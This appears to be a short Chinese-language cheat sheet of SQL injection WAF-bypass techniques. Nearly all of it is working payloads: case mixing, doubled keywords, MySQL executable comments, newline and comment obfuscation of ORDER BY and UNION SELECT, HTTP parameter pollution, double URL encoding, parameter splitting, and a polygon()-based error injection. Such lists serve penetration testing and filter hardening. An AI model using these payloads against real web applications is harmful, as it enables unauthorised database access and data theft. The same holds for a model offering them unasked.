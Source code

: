 - SQL注入的绕过

  - 测试 and 1=1;or 1=1

  - 绕过

    - 1.大小写 AND　1=1

    - 2.双写 aAnNdD 1=1

    - \3. && ||  &&1=1

    - 4.and -1=-1;and 0x1

    - 5.内联注释
      - /**/:  and /!*500001*/=/*!500001*/
        MYSQL 数据的可移植性，前提条件/*!00000user()*/
        ​特性：可执行的注释

    - order by拆解数据标的字段数量

      - 空格:%23 ,换行%0a

      - /**/order/*/%0a*a*/by/**/

    - 万能符号
      - order /*//--/*/ by 3--+

    - 使用联合查询

      - union select 1,database(),3--+

      - union /*//--/*/ /*!--+/*%0aselect/*!1,2,*/database  /*//--/ */ () --+

    - 6.HTTP参数污染 inject=union/*&inject=*/select/*&inject=*/1&inject=2&inject=3&inject=4
      - inject=union/*,*/select/*,*/1,2,3,4

    - 7.双重URL编码，WAF一般都会进行URL解码，如果后端还进行一次解码就可以绕过

    - 8.参数拆分 
      a=union /*and 
      b=*/select 1,2,3,4
      and a=union /*and*/select 1,2,3,4

    - 9.select/**/polygon((select*from(select*from(select@@version)f)x))代替updatexml报错注入